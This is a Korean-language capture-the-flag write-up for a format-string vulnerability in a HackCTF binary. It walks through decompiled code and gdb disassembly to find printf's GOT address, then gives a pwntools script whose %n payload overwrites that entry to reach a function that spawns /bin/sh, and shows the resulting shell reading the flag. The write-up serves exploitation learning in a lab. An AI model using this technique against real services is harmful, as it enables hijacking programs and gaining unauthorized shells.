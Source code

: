# [HackCTF] Basic_FSB

ida로 basic_fsb 바이너리의 main문을 확인해보자.<br>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  vuln();
  return 0;
}
```
main문에서는 stdout을 먼저 세팅해주고 vuln이라는 함수를 호출한다.<br>
vuln이라는 함수를 분석해보자.<br>


```c
int vuln()
{
  char s; // [esp+0h] [ebp-808h]
  char format; // [esp+400h] [ebp-408h]

  printf("input : ");
  fgets(&s, 1024, stdin);
  snprintf(&format, 0x400u, &s);
  return printf(&format);
}
```
ida로 확인해보면 input을 s라는 변수에 1024바이트만큼 저장한다.<br>
그 후에, snprintf 및 printf로 출력을 시켜준다.<br>
추가적으로 보면, flag라는 함수가 있는데, `format string bug`를 이용하면 될 것같은데, 일단 분석을 해보자.<br>

  ```c
  int flag()
  {
    puts("EN)you have successfully modified the value :)");
    puts(aKr);
    return system("/bin/sh");
  }
   ```
flag함수를 보면 `sytstem("/bin/sh");`를 통해 쉘을 실행시켜주는 것을 확인할수있다.<br>

```c
kimdong@ubuntu  ~/Wargame  ./basic_fsb
input : aaaa %p %p %p %p %p
aaaa (nil) 0x61616161 0x20702520 0x25207025 0x70252070
```
일단 바이너리를 실행해본 결과이다.<br>

두번째 `format string`에 aaaa가 들어간것을 확인할수있다.<br>

`format string bug`를 사용할때는 %n을 사용할수있는데, %n은 현재까지 출력된 바이트 수를 계산하여 자신이 출력하는 값을 주소라고 생각하여 계산한 값을 그 주소에 넣는 것이다.<br>
`printf GOT`주소를 구해보자.<br>
```c
gef➤  disas vuln
0x080485a2 <+87>:	lea    eax,[ebp-0x408]
0x080485a8 <+93>:	push   eax
0x080485a9 <+94>:	call   0x80483d0 <printf@plt>
```
vuln함수에서 보면 printf의 plt주소를 알수있다.<br>

```c
gef➤  disas 0x80483d0
Dump of assembler code for function printf@plt:
   0x080483d0 <+0>:	jmp    DWORD PTR ds:0x804a00c
   0x080483d6 <+6>:	push   0x0
   0x080483db <+11>:	jmp    0x80483c0
End of assembler dump.
```
plt주소를 disas해보면, `0x804a00c`라는 GOT주소를 구할수있다.<br>

따라서 printf의 GOT주소를 `FSB`를 사용하여 flag의 주소(`0x080485b4`)로 덮어씌워주면 문제가 해결가능하다.<br>
0x80485b4 = 134,514,100
## Exploit Code

```c
from pwn import *
p = remote("ctf.j0n9hyun.xyz",3002)

p.recvuntil("input : ")

printf_got=0x804a00c

payload=p32(printf_got)
payload+= "%134514096x%n"
// 4byte는 앞에 print_got에서 입력해줬으므로 4byte는 빼고 값을 넣어준다.<br>
p.sendline(payload)
p.interactive()
```

```c
kimdong@ubuntu  ~/Wargame  python ex_fsb.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3002: Done
[*] Switching to interactive mode
EN)you have successfully modified the value :)
KR)#값조작 #성공적 #플래그 #FSB :)
$ ls
flag
main
$ cat flag
HackCTF{}
```

## END !
